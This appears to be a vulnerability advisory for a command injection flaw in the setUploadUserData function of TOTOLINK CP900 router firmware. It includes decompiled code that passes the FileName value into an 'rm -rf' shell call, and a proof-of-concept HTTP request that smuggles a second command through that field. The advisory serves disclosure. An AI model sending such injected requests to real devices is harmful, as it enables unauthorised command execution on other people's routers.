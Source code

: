 ## CP900 command injection

### Overview

* Vendor: TOTOLINK

* Product: CP900
* Version: TOTOLink outdoor CPE CP900_V6.3c.1144_B20190715

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://www.totolink.net/data/upload/20190823/72f2e599854470f5752826473d74b7e0.zip

### Vulnerability details

Totolink outdoor CPE CP900_V6.3c.1144_B20190715 were discovered to contain a command injection vulnerability in the `setUploadUserData` function via the `FileName ` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

```
int __fastcall setUploadUserData(int a1, int a2, int a3)
{
     ……
     Var = (const char *)websGetVar(a2, "FileName", "");
     ……
     sprintf(v17, "rm ‐rf %s", Var);
     CsteSystem(v17, 0);
     ……
}
```

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 118
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "setting/setUploadUserData",
    "FileName": "'1;pwd'"
}
```

